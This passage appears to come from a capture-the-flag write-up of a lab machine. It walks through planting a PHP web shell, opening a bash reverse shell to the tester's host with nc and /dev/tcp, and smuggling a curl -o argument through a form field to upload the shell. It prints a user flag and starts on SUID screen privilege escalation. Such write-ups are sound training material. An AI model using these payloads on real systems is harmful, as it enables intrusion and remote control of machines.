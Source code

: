 Now visit the page and see if it worked:

![](img/web-shell.png)

Boom. Now create a reverse shell:

```sh
# start listener
nc -lvnp 9000

# kick off bash reverse shell
❯ curl http://10.10.10.24/uploads/cmd.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.8/9000 0>&1"'
```

And that gives us a shell!

**NOTE:** Later I found that I could have more easily created the web shell by writing the file locally and using the curl `-o` flag to write it to the uploads directory (pulling it from my local web server).

```sh
# make php file to print php information
❯ echo '<?php system($_REQUEST["cmd"]) ?>' > cmd.php
# serve file
❯ sudo python3 -m http.server 80
# trigger the file upload
❯ curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=http://10.10.14.8/cmd.php -o /var/www/html/uploads/cmd.php'
```

Here's user.txt:

```sh
$ cat /home/maria/user.txt
3b6b27272e5d170edc58d897b1367353
```



## privesc

Running linpeas.sh, find a few possibilities:

- Linux kernel 4.4.0-78-generic is old, might be vulnerable to exploits
- Unknown SUID binary: `/usr/bin/screen-4.5.0`
- Unknown SGID binary: `/usr/bin/screen.old`

Looking at [GTFObins](https://gtfobins.github.io/gtfobins/screen/), it shows `screen` version 4.05.00 can be used to append data to any file.
